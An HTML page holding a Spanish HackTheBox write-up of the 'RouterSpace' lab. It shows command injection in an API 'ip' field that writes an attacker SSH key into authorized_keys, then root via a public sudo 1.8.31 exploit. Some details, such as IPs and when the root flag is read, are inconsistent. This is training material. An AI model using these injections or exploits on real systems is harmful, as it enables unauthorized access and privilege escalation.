






<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Post - RouterSpace</title>
    <link href="https://fonts.googleapis.com/css2?family=Merriweather:wght@400;700&family=Open+Sans:wght@400;600&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/styles/github.min.css">
    <style>
        body {
            font-family: 'Open Sans', sans-serif;
            max-width: 800px;
            margin: 0 auto;
            padding: 20px;
            color: #fff;
            background-color: #000;
            line-height: 1.6;
        }
        
        h1, h2, h3, h4, h5, h6 {
            font-family: 'Merriweather', serif;
            margin-bottom: 20px;
        }

        img {
            max-width: 100%;
            height: auto;
            margin: 20px 0;
            border-radius: 5px;
            box-shadow: 0 4px 6px rgba(255, 255, 255, 0.1);
        }

        pre {
            background-color: #222;
            padding: 10px;
            overflow-x: auto;
            border-radius: 5px;
        }

        code {
            font-family: 'Courier New', Courier, monospace;
            background-color: #222;
            padding: 2px 4px;
            border-radius: 3px;
        }

        blockquote {
            border-left: 4px solid #ccc;
            margin-left: 0;
            padding-left: 20px;
            font-style: italic;
            color: #ccc;
        }

        a {
            color: #fff;
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div id="post">
        <!-- Aquí se insertará el contenido del post en formato Markdown -->
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/showdown/1.9.1/showdown.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/highlight.min.js"></script>
    <script>
        // Obtener el contenido del post en formato Markdown (puedes reemplazar esto con tu propia lógica)
        const markdownContent = `
# Máquina "RouterSpace" de HackTheBox.

Caracteristicas:

- Linux  
- Fácil  
- Mobile Application 
- Penetration Testing APK 
- Analysis and Debugging Decoding APK with APKTool 
- Files Inspection Installing Anbox on Parrot 
- Security Setting up a new proxy in Anbox Installing the APK application and analyzing requests with Burpsuite 
- Command Injection in one of the found requests [RCE] 
- LinPeas Recon 
- Enumeration Abusing Sudo Version 1.8.31 [Privilege Escalation]

Util en:

- eWPT Mobile

        IP 10.10.10.148

- sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.148 -oG allPorts

descubre puerto 80 y puerto 22

- sudo nmap -sCV -p22,80 10.10.11.148 -oN targeted

vemos que tenemos ssh. continuamos lanzando whatweb

- whatweb http://10.10.11.148

La página principal se carga como index.html, por lo que parece simplemente un sitio estático. 
No se reconocen ni las versiones del servidor SSH ni HTTP. La respuesta HTTP devuelve un valor extraño. header X-POWERED-BY RouterSpace, que veremos en un momento.
visitamos la web alojada en el puerto 80 y vemos una pagina web que probe algun tipo de aplicacion.
tambien vemos que la vercion de jquery esta bastante desactualizada. Podemos recordar que son propensas a xss y ataques prototipe polution 
Procederemos a descargar la apk 

lanzamos:

- 7z -l RouterSpace.apk

para listar el contenido. Es muy tipico que las aplicaciones por detras emplean firebase, esta no sin embargo si descargamos una apk desde apkmonk la 
decompilamos y buscamos de forma recursiva la palabra firebase podremos tener salidas.
(tip apkmonk permite descargar aṕks directo, para jugar con ellas)





Hay algunas apk que tienen la base de datos expuesta.
Lo que haremos sera montar un emulador para analizar las peticiones. asi que bueno instalamos adb y snapd

- sudo apt install adb snapd

tambien instalaremos [[anbox]] como alternativa a genymotion en parrot no da problema, nosotros lo istalaremos con snap de la siguiente manera 

- snap install --devmode --beta anbox

reiniciamos.



y se ve muy sencillo asi que ahora lo que queremos hacer es instalar la apk de routerspace. lanzamos:

- sudo adb install RouterSpace.apk

listo deberia aparecer en anbox, ahora para saber que es lo que que hace respecto a peticiones, haremos que las lance por un proxy 
usaremos el proxy de burpsuite asi como lo hacemos con firefox, Recordamos que burpsuite escucha las comunicaciones por el host local en el puerto 8080
y si analizamos los proxies

- sudo adb shell setting list global http_proxy 

no se ve configurado. asi que para configurarlo 

- adb shell settings put global http_proxy (nuestra vpndellab):8001

ahora filtramos por proxy.

- sudo adb shell setting list global http_proxy | grep proxy 



ahora configuraremos un proxy con las caracteristicas establecidas, desconectamos el otro proxy y abrimos la apk routerspace en anbox
todo lo que hagamos en anbox se enviara a burpsuite, asi que abrimos la apk, saltamos el incio y vemos un router con un boton 
chek status lo apretamos y vamos a burpsuite proxy/intercept.



agregamos la direccion al /etc/hosts, reiniciamos el proxy para volver a interceptar la peticion con el virtualhost ya alojado
veremos la peticion y haremos ctrl + r para enviarlo a repeater, lanzamos send y nos devolvera.


 
vemos la respuesta a la derecha cambiaremos la ip a la nuestra 10.10.14.14 nos pondremos en escucha de trazas icmp sin resolucion dns

- tcpdump -i tun0 icmp -n

no sabemos que pasa por detras, pero si esto esta tramitando un comando de bash, podemos intentar una inyeccion. Pondremos whoami 



nos devuelve un usuario, asi que tenemos ejecucion remota de comandos. Lanzamos pwd y nos da /home/paul asi que ahora buscaremos la flag

- cat /home/paul/flag.txt

en las salida de paul 

- ls -l /home/paul/

Para obtener un shell, necesitamos agregar nuestra clave ssh pública al archivo de paul. authroized_keysarchivo. 

<pre>
<code>
    POST /api/v4/monitoring/router/dev/check/deviceAccess HTTP/1.1
Host: routerspace.htb
User-Agent: RouterSpaceAgent
Accept: Application/json, text/plain, */*
Content-Type: application/json
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 616

{ "ip":"; echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDRP5tBeDRlasVolslKLu12YXWbAn9/frUTFy2G6xKxb977aXJWqygm1lNHScqz9PFNLdL3e6fN8fTHr3kjO0fX4JQf98aj9d+vkPgU0mPrPdXdGp9hi2inKPR8I939Dch1vSxmGPpDazSRe/zDjFd0aoDrT2KoH7CofVZOMt1TAbcaVlwcmxdYR6qXTJn4wZYQVjCJCqEEiuT6lWtsi0DpnSFWryD/lIJfm6/IYLMgc6R58jpqVzdKPzV1GB+QmdPL1aMNXaLxi7z9zzGrmlaApyyKeBwnnHIOaKlgZGX2VeExgi4en1i7/tnLG40SJ5YDsAwMCD4ZRCx7drAhEBmQ2Hg55h40cbjohKJx3bM6aRTvznZeBlCYEW/V2zAbsa4XjnRzHhjVTFVp0z3Xyiobx8hUAbZ7ciD/uX8VuZc2d/qqDEIEGA9jJFzhg9aDdEC6xiIwLawZBC8X84iYxfAj0OF7iHONPwB8EGZjXkggWj94CviKPKRFXdGfweBUky0= kali@kali'  > /home/paul/.ssh/authorized_keys"}
</code>
</pre>

Luego podremos acceder a la máquina como Paul a través de SSH. 

<pre>
<code>
kali@kali:/tmpS$ ssh -i id_rsa  paul@routerspace.htb
[...]
paul@routerspace:~$ cat /root/root.txt 
flag
</code>
</pre>

y tenemos flag de user asi que ahora para escalar privilegios.

- find \-perm -4000 2>/dev/null

y vemos que sudo esta empleando la version 1.8.31 que es vulnerable, siendo suid propietario root, nos permitira ejecutar el binario de forma temporal como el usuario
pero esto no garantiza ejecucion remota de comandos el rse. 

copiamos la version de sudo y buscamos un exploit.
Encontramos https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit

debemos hacer make para compilar,desde la victima revisamos que tenga gcc y make

- which gcc make

tiene ambos, vamos a hacer un gitclone del exploit. Montamos un servicio http por el puerto 80 en donde se encontraran los recursos para
descargarnoslos con wget 

- python3  -m http.server 80

no pudismo obtener el archivo con wget probablemente por reglas del firewall asi que intentaremos con xclip

como atacante:

- cat exploit.c | xclip -sel clip

en la maquina victima:

- cd /tmp 
- nano exploit.c

pegamos el contenido lo mismo con makefile y shellcode.c. Seguimos con la guia de github del exploit.

- make
<pre>
<code>
paul@routerspace:/dev/shm/CVE-2021-3156$ ./exploit 
# id
uid=0(root) gid=0(root) groups=0(root),1001(paul) 
</code>
</pre>

y somos root, procedemos a buscar la flag y terminada.

Algunos de los writeups en esta página, pueden tener contenido de otras páginas o tener muy pocas imágenes, esto 
debido a que en algunas de las máquinas que realice, no tome los apuntes o no tome capturas de pantalla, así que he decidido buscar varios writeups
y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí, también si encuentra faltas de ortografía 
o cualquier error, Puedes contactarme a mi correo.

lerioxirit@proton.me


        `;
        
        // Convertir Markdown a HTML
        const converter = new showdown.Converter();
        const html = converter.makeHtml(markdownContent);

        // Insertar el HTML generado en el elemento con id "post"
        document.getElementById('post').innerHTML = html;

        // Resaltar la sintaxis del código
        hljs.initHighlightingOnLoad();
    </script>
</body>
</html>